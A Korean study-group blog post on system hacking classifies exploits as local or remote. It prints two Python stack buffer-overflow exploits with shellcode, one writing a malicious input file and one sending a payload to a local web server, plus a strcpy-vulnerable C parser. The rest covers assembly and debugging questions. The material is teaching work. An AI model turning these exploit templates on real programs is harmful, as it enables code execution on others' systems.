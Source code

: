 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디 - Exploit 분류
---
```


### 170811 3주차

이번 시간에는 Exploit 분류에 대해 알아보겠다.

<br>
## Exploit 분류

Exploit은 취약점을 공격하는 코드다. 크게 원격에서 공격 가능한 Remote Exploit과 로컬 상에서 공격이 가능한 Local Exploit으로 분류할 수 있다.

<br>
### 1. Local Exploit

Local Exploit은 PC 혹은 서버 내부에서 실행하는 Exploit이다. 일반적으로 권한 상승 혹은 코드 실행을 위해서 사용한다. 인자값을 직접 입력해 주어야 하는 경우나 특정 파일을 통해 입력값을 전달하게 되므로 로컬 상의 권한을 이미 가지고 있는 경우이거나, 파일 실행 등의 조건이 필요하다.

예를 들어, 파일을 입력 받아 출력해 주는 간단한 프로그램이 있다고 하자. 이 프로그램의 경우, 문자열의 길이를 검사하지 않고 복사해주기 때문에 스택 버퍼오버플로우가 발생한다. 그렇다면, 이 취약점을 공격하는 코드는 아래와 같다.

```python
import struct

print "[+] Creat text file..."

nop = "\x90" * 100

shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7"

print "Shellcode Length :", len(shellcode)
dummy = "A"*(504-len(nop+shellcode))
buf = struct.pack('<L',0x12fd50)
contents = nop + shellcode + dummy + buf

f = open("test.txt","w")
f.write(contents)
f.close()
```

위 공격 코드를 실행하면 프로그램의 입력값인 텍스트 파일을 만들어주며, 이 프로그램에는 공격 성공 후 실행할 쉘코드가 입력되어 있다(*쉘코드란, 공격자가 실행하길 원하는 코드다. 일반적으로 다양한 악성 행위를 수행하도록 만들어짐*). 공격 코드를 실행하고 생성된 악성 파일을 인자값으로 프로그램을 실행하면 공격자가 원하는 코드가 실행되는 것을 확인할 수 있다. 윈도우 OS의 경우, 주로 직접 인자값에 입력하는 방식의 공격보다는 악성 파일을 이용한 공격이 주를 이룬다. **사용자에게 입력값을 받는 모든 프로그램은 취약점이 존재할 수 있다!**

<br>
### 2. Remote Exploit

Remote Exploit은 Local Exploit과 반대로 원격에서 이루어지는 공격이다. 원격에서 패킷을 보내 공격하므로 특정 포트를 열고 서비스를 제공하는 서버 프로그램이 타겟이 된다. 단순히 포트가 열려있으면 원격에서 공격을 당할 수 있기 때문에 Remote Exploit 공격은 대부분 치명적이다.

예를 들어, 간단한 웹 서버 프로그램이 있다고 하자. 이 프로그램에는 아래 코드와 같이 요청 패킷을 파싱하는 과정에서 경계값 검사를 하지 않는 **strcpy** 함수를 사용하여 버퍼오버플로우 취약점이 발생한다.

```c
int parse(SOCKET sock, char *buf) {
  char url[1000] = {0,};
  char send_buf[2000] = {0,};
  char * token = strtok(buf, " ");
  char * method = token;
  strcpy(url, token+(strlen(method)+1));
  printf("URL : %s\n", url);
}
```

아래 Exploit 코드는 원격에서 패킷을 보내는 Remote Exploit 코드다.

```python
import struct
from socket import *

nop = "\x90" * 200
shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7";

print "Shellcode Length :", len(shellcode)
dummy = "A"*(499-len(nop+shellcode))
#buf = struct.pack('<L',0x42424242)
buf = struct.pack('<L',0x00416124)
payload = nop + shellcode + dummy + buf

print " [+] Sending Packet..."
s = socket(AF_INET,SOCK_STREAM,0)
s.connect(('127.0.0.1',80))
s.send("GET /"+payload)
print s.recv(150)
s.close()
```

위 코드를 실행하면 원격에서 해당 웹 서버 프로그램을 공격하여 원하는 코드를 실행시킬 수 있음을 확인할 수 있다.

Remote Exploit은 원격에서 직접 공격이 가능하여 주로 서버에 접근 권한을 얻기 위한 1차 공격으로 많이 사용된다. Remote Exploit을 통해 서버의 일반 사용자 권한을 획득한 뒤, Local Exploit을 통해 추가 권한 상승을 시도하는 것이 일반적인 침투 절차이다.

<br>
## [질문 내용 정리]

- **CALL(Call a Procedure), RET 와 함수 에필로그 차이점?**

어셈블리어 중 CALL 명령어는 함수 호출 시 사용한다. JMP 명령어와 비슷하게 프로그램 실행 흐름을 변경하지만 다른 점은 되돌아오는 리턴 주소(*CALL 다음 명령*)를 스택에 저장한다. 함수 호출후 원래 위치로 실행 흐름을 되돌리고 나서 다시 프로그램이 실행될 수 있다. RET 명령어는 CALL 명령어로 호출한 함수의 주소를 EIP에 저장하고, CALL 명령어로 감소되었던(*ex: PUSH 명령어로 줄어든 ESP 4바이트*) 4바이트를 다시 4바이트 증가시킨다. 함수 에필로그는 CALL 명령어로 호출한 함수를 실행하고 나서, LEAVE(*POP EBP 해서 Base Pointer를 복구하는 과정*) 와 RET 명령어(*PUSH 명령어로 줄어든 4바이트를 다시 4바이트 확장시키는 과정*) 수행을 마치고 처음 호출한 지점으로 돌아가기 위해 스택을 복원하는 과정이다. 참고로, 방식은 함수 호출 규약에 따라 조금씩 다르다.

- **Back To User Mode?**

Back To User Mode는 OllyDbg로 특정 프로그램을 디버깅할 때, 한 이벤트가 발생하기 전에 이 모드를 설정한 뒤, Call 명령어가 수행되고 나서 바로 다음 위치를 잡을 수 있는 기능을 말한다.

> 1. 분석할 프로그램을 OllyDbg로 실행한다.
> 2. F9를 눌러 프로그램 실행시켜 특정 이벤트를 발생시킨다.
> 3. F12를 눌러 프로그램을 일시정지 상태로 둔다.
> 4. Alt+F9를 누르면 Back To User Mode가 설정된다.
> 5. 프로그램을 확인해보면 잠시 멈쳤다가 정상적으로 뜬다. 이 때 버튼 클릭이나 다른 이벤트를 수행한다.
> 6. OllyDbg가 자동으로 해당 이벤트 수행 부분에 커서가 이동된다.

- **인라인 코드 패치(Inline Code Patch)**

[실습 문제](http://blog.eairship.kr/303) 중간에 EBX가 4010F5, EDX에 0으로 값을 덮어씌우고 4010F5~401248에서 순차적으로 4바이트 단위로 값을 읽어온 뒤 ADD 연산을 왜 하는 지..? 그리고 그 다음에 OEP 코드가 나오고, API 함수 호출하는 부분에서 매개변수로 받을 때, MSDN 에서 매개변수가 몇 개인지, 각각 어떤 변수인지 확인했고.. 함수 호출 시 cdecl 규약(*C/C++ 언어의 기본 함수 호출 규약*)에 따라 역순으로 매개변수를 PUSH 하고 함수 호출한 뒤 이어지는 다음 라인에 스택을 정리한다. 40122C 주소의 4010F5 값이 DlgProc 즉, IpDialogFunc의 값이 된다.(*IpDialogFunc 는 다이얼로그 박스 프로시저를 가리키는 포인터 -> 주소*) 아직 더 공부해야 함..

- **main(), tmain(), wmain() 차이?**

main() 이라는 함수는 모든 C/C++ 프로그램의 실행이 시작되는 지점. 유니코드 프로그래밍 모델을 따르는 코드를 작성할 경우 main()의 와이드(Wide) 문자 버전인 wmain()을 사용할 수 있다. tmain()은 Visual Studio에서 Win32 콘솔 응용 프로그램 프로젝트를 생성하면 생기는 함수며 TCHAR.h에 정의되어 있다.
> #define tmain wmain

즉, tmain()은 wmain()과 같은 것이다. 그리고 tmain()은 사용했을 때 유니코드가 정의되어 있지 않으면 main()으로 인식하고, 유니코드가 정의된 경우에는 wmain()으로 인식한다.

- **C/C++ 에서 stdafx.h와 Precompiled Header란?**
stdafx.h는 Standard Application Frameworks의 약자로, 개발자들의 생산성 향상을 위해 마이크로소프트에서 제공하는 소프트웨어 라이브러리 체계를 뜻하며 MFC로 구성되어 있다. (*MFC는 윈도우 환경에서 GUI 프로그램을 C++ 언어를 사용하여 개발할 때, Win32 API의 핸들과 C언어 함수들을 C++ 언어 클래스로 만든 라이브러리 ex) Visual C++*) 이 안에 포함하는 내용을 보면 윈도우 객체 생성에 필요한 기본 클래스(*afx.h, afxwin.h 등*), 윈도우 컨트롤, 기본 DB 관련 클래스, 네트워크 관련 클래스 등 기본적인 프레임워크 구축에 필요한 필수 헤더들이 있다. 그런데 일부 헤더 파일의 경우, 방대한 크기의 소스 코드를 포함할 수 있어서(*ex) window.h*) 이런 코드들을 매번 컴파일하면 전체 컴파일 시간이 길어진다. 그래서 자주 바뀌지 않는 기본적인 라이브러리들의 경우, 컴파일 시간을 줄이고자 컴파일러가 사전에 헤더 파일들을 미리 컴파일하고 쓸 수 있게 하는 데 그것이 Precompiled Header(*PCH*) 이다. MFC에서 자주 사용하는 공용 소스들을 Precompiled Header로 만들어 제공하기 위해 default로 stdafx.h와 stdafx.cpp가 자동으로 생성되는 것이다(*Visual Studio에서 프로젝트 속성 - C/C++ - 미리 컴파일된 헤더 항목에서 PCH 사용 여부 선택 가능*). 즉, PCH를 사용하면 자주 변경되지 않는 긴 소스 파일을 미리 컴파일하여 해당 컴파일 결과를 별도의 파일(.pch)에 저장을 해놓고, 컴파일할 때 해당 파일들을 새로  컴파일 하지 않고, 미리 컴파일된 파일을 사용함으로써 컴파일 속도를 향상시킨다.
